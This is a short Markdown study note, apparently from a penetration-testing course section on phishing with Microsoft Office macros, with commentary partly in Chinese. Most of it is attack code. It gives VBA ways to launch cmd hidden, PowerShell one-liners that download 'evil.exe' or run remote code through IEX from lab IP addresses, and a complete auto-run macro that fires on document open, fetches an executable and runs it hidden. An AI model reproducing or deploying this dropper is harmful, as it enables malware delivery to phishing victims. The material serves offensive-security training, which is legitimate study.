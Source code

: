 # 3.2 Phishing With Microsoft Office

## 3.2.1 Installing Microsoft Office

讲解怎么安装office，略.

### 3.2.1.1 Exercise

## 3.2.2 Introduction to VBA

利用宏打开cmd的几种方式

```vb
visual basic
str = "cmd.exe"
1. Shell str, vbHide
2. CreateObject("Wscript.Shell").Run str, 0
```

自动打开

## 3.2.2.1 Exercises

Environ("computername") 获得电脑名
Environ("username") 获得用户名

## 3.2.3 Let PowerShell Help Us

```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.28.128/imag/evil.txt','evil.exe')
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.28.128/imag/evil.txt'))"
```

在VBA中
```vb
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.49.96:8000/evil.exe','evil.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path + "\evil.exe"
    Wait (2)
    Shell exePath, vbHide
End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub

```

### 3.2.3.1 Exercises